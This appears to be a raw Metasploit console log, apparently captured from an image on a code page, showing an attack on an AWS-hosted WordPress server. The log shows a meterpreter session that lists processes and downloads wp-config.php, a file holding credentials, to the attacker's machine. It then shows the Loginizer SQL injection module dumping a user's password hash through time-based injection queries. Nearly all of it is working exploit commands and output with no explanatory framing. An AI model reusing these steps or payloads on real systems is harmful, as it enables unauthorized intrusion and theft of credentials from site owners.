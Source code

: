 ```console
 346  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 347  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 348  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 349  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 350  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 352  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 406  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 407  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 408  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 419  sh                                                1001  sh -c ps ax -w -o pid,user,cmd --no-header 2>/dev/null
 420  ps                                                1001  ps ax -w -o pid,user,cmd --no-header

[*] Running 'sysinfo' on meterpreter session 1 (18.158.31.183)
Computer    : ip-10-0-0-38.eu-central-1.compute.internal
OS          : Linux ip-10-0-0-38.eu-central-1.compute.internal 5.10.215-203.850.amzn2.x86_64 #1 SMP Tue Apr 23 20:32:19 UTC 2024 x86_64
Meterpreter : php/linux
[*] Running 'download /bitnami/wordpress/wp-config.php' on meterpreter session 1 (18.158.31.183)
[*] Downloading: /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Downloaded 4.28 KiB of 4.28 KiB (100.0%): /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Completed  : /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php

resource (stdin)> use auxiliary/scanner/http/wp_loginizer_log_sqli

resource (stdin)> set rhost http://wordpr-Publi-BpPriJDxXb94-436714884.eu-central-1.elb.amazonaws.com
rhost => http://wordpr-Publi-BpPriJDxXb94-436714884.eu-central-1.elb.amazonaws.com

resource (stdin)> set verbose true
verbose => true

resource (stdin)> run
[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version of Loginizer detected
[*] {SQLi} Executing (select group_concat(JC) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) JC from wp_users limit 1) JIVez)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 wordpress   $P$B8OjOUCRrPXm/TrVQ2/WJqUp5w7WmI.

[*] Scanned 1 of 2 hosts (50% complete)
[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version of Loginizer detected
[*] Scanned 1 of 2 hosts (50% complete)
[*] {SQLi} Executing (select group_concat(TXChHXg) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) TXChHXg from wp_users limit 1) fA)
```
